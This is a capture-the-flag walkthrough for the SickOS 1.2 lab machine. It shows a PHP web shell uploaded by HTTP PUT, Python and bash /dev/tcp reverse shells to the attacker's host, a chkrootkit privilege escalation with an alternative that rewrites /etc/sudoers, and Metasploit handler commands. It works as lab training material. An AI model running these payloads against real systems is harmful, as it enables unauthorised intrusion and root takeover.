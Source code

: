 # SickOS 1.2

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/Sawv9BK.png)
Victim is `192.168.227.134`
`nmap -sS -sV -A -p- -oN NmapSickOsLv2.txt 192.168.227.134`
![](https://i.imgur.com/GB8p98k.png)
Here we got two port open: OpenSSH 5.9p1/22, lighttpd 1.4.28/80

Let's take a look the website on 80, there might contain ssh AC/PW.
![](https://i.imgur.com/jREPFjX.png)
Well, nice meme. Is there any metadata or message stego in the pic?

![](https://i.imgur.com/Pe3Y4Qg.png)
exiftool... Nope.

![](https://i.imgur.com/oeI9r8O.png)
binwalk... Nope.
strings either.
Maybe we need dive more deeper.

![](https://i.imgur.com/NkkWjTW.png)
`dirb http://192.168.227.134` then we got `/test` here.
![](https://i.imgur.com/2AQdZPl.png)
Seems a directories leaking.

Can we upload file to it?
`curl -v -X OPTIONS http://192.168.227.134/test/`
![](https://i.imgur.com/7ov6RPQ.png)

Now find a short reverse shell payload to upload:
`curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://192.168.227.134/test/shell.php`
![](https://i.imgur.com/xMmGNMi.png)
![](https://i.imgur.com/MiGumz1.png)
Success!
This payload may allow us to execute more complicated command through `GET` variable `cmd`.
Let's give it simple test with `id`.
```
http://192.168.227.134/test/shell.php?cmd=id
```
![](https://i.imgur.com/dZPtTz7.png)

Great. Let's try a little bit more complicated payload.

![](https://i.imgur.com/pOwsy2F.png)
`http://192.168.227.134/test/shell.php?cmd=uname -a`


```
http://192.168.227.134/test/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.227.132",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Okay, we try so hard, there's only 443 work, and else was blocked.

![](https://i.imgur.com/EqFboKM.png)
As usual, setup pty: `python -c 'import pty;pty.spawn("/bin/bash")'`
If you want a proper fitty terminal, open `nc` with bash.
After get shell and type python pty, `CTRL+Z` suspended the process.
Check terminal environment info with `echo $TERM`, `stty -a`.
Set the stty to type raw: `stty raw -echo`.
Bring the shell back with `fg`, and reset it.
![](https://i.imgur.com/9qfpBGu.png)
This might give you a greate teerminal to interact.

![](https://i.imgur.com/ohr3P0Q.png)
We search the `crontab` in `/etc`, found that there're `cron.daily`, `cron.weekly`, `cron.monthly` will be run as root.

Go deeper inside...
```
cd /etc/cron.daily
ls -alF
chkrootkit -V
```
![](https://i.imgur.com/K8TRQgI.png)

We got some version number here, `searchsploit` of this.
![](https://i.imgur.com/Y5EDDRx.png)

Here's local privilege escalation.
![](https://i.imgur.com/lknfFmq.png)

That mean let's set a reverse shell file name as `update` under `/tmp` them we will get `root` shell, like this:

```
# On Victim
printf '#!/bin/bash\nbash -i >& /dev/tcp/192.168.216.129/443 0>&1\n' >> /tmp/update
chmod 777 /tmp/update
```
```
# On Host
nc -nlvp 443
```

Or simply set a shell script to add yourself as super user / unlimit the protect of sudoers:
```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```
![](https://i.imgur.com/0TGJd38.png)

![](https://i.imgur.com/KefsPJr.png)
However, this payload didn't work, so I turn out to use metasploit.

## Msfconsole

From PentestMonkey, get the php reverse shell, save it and upload to the `192.168.227.134/test/`
```
curl --upload-file php-reverse-shell.txt -v http://192.168.227.134/test/php-reverse-shell.php -O --http1.0
```
Then open up the MSF, create the session handler.
```
use exploit/multi/handler
set lport 443
set payload linux/x86/shell_reverse_tcp
set lhost 192.168.227.132
run
```
Start using exploit module on session.
```
se exploit/unix/local/chkrootkit
set SESSION 1
set LHOST 192.168.227.132
set LPORT 443
run
```
![](https://i.imgur.com/yzlIM4V.png)

Get root shell and cat the flag. 
![](https://i.imgur.com/9pjCAiC.png)
